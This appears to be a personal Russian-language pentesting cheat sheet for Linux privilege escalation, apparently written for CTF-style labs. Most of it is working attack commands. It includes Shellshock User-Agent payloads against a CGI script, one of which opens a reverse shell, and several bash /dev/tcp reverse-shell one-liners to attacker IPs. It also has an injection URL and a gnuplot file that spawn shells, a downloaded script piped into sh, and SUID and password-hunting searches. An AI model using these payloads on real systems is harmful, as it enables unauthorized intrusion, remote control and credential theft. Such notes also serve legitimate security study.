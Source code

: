 

Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

Информация о системе в txt-файле:

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-

       сетевые интерфейсы, порты, службы;
       netstat

curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"
/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'
echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null



https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения

реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор


https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080


Запустить интерактивную оболочку

script /dev/null -c bash

повысить до tty командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm


/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# Найти строки из всех файлов где есть passw
cat * | grep -i passw*

# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;
find / -user root -perm -u=s -type f 2>/dev/null

